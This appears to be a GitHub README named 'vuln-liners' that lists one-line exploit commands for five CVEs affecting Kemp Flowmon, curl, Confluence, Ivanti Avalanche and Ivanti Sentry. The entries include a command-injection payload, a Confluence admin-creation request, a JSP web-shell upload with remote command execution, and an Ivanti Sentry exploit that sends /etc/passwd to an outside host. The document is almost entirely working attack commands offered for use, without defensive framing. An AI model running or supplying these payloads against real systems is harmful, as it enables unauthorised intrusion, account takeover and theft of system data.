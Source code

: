 # vuln-liners
One line vulnerabilities

## CVE-2024-2389 (Progress Kemp Flowmon):
`curl -kv 'https://192.168.56.12/service.pdfs/confluence?lang=en&file=`curl+IP+PORT`'`

## CVE-2023-38545
`curl -vvv -x socks5h://localhost:9050 $(python3 -c "print(('A'*10000), end='')")`

## CVE-2023-22515 (Confluence Broken Access Control)
`curl -k -X POST -H "X-Atlassian-Token: no-check" --data-raw "username=adm1n&fullName=admin&email=admin@confluence&password=adm1n&confirm=adm1n&setup-next-button=Next" http://confluence/setup/setupadministrator.action`

## CVE-2023-32563 (Ivanti Avalanche Pre-auth)
`curl -v http://x.x.x.x:1900/Servlet/Skins -F guid=../../../Web/webapps/ROOT -F "file=@-;filename=x.jsp" <<<'<%Runtime.getRuntime().exec(request.getParameter("c"));%>' -: -k https://x.x.x.x:8443/x.jsp -d c=mspaint.exe`

## CVE-2023-38035 (Ivanti Sentry API Authentication Bypass)
`python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd https://x.x.x.x', 'isRoot': True}, None)"`

